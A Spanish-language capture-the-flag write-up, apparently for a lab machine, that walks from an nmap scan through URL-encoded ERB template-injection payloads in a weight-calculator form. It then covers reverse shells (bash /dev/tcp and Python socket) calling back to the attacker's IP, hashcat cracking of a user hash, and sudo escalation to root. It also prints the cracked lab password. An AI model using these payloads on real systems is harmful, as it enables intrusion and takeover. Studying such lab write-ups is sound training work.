Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.253 -oN escaneo
```


Vemos que tiene el puerto 80 correspondiendo au un servidor nginx. Así que vamos a ver que esconde.


Vemos que arriba nos pone un apartado de calculadora de peso, así que vamos a ver que esconde.


Vemos que permite que introduzcamos texto, así que a lo mejor podemos realizar injecciones para generarnos un a revershell. Pero antes de eso, vamos a ver comos se comporta. Vamos a interceptar la petición con `burpsuite`.


Vemos que lo pone de resultado la categoría y un porcentaje. Ahora vamos a provar de injectar payloads en el input de categoría.
```
A%0A;<%25%3d+7*7+%25>
```


Vemos que da el resultado de la multiplicación. Ahora vamos a ver si podemos ejecutar código del servidor.
```
A%0A;<%25%3d+`whoami`+%25>
```


Entonces, una vez vemos que nos permite ejecutar comandos del servidor, vamos a generarnos la revershell.
Encodeamos la revershell en `base64`.
```
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.90/6969 <&1'" | base64
```


Una vez la tenemos encodeada, vamos a ponerla en el payload.
```
A%0A;<%25%3d+`export+RHOST="10.10.14.90";export+RPORT=4444;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'`+%25>
```




Vemos que ya estamos dentro. Ahora vamos a hacer el tratatmiento de la tty para evitar problemas con la shell.
```
script /dev/null -c bash
Cntl + Z
stty  raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Ahora nos iremos a la carpeta del usuario `susan` que la ruta es: `/home/susan`.


Ahora vamos a escalar los privilegios para llegar al usuario root (administrador). Ejecutaremos el archivo `linpeas.sh` para ver si hay alguna vulnerabilidad que podamos explotar.

El linpeas, nos ha dicho la ruta de un archivo que contiene las credenciales del usuario susan, asi que vamos deshashearlas.
```
hashcat -m 1400 susanHash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

La contraseña que ha descifrado es `susan_nasus_413759210`. Una vez esto, vamos mirar que binarios podemos explotar.
```
sudo -l
```


Vemos que podemos explotar todos los binarios, así que vamos a escalar a root.
```
sudo su
```


Ahora solo nos falta la flag del usuario root.
```
cat /root/root.txt
```
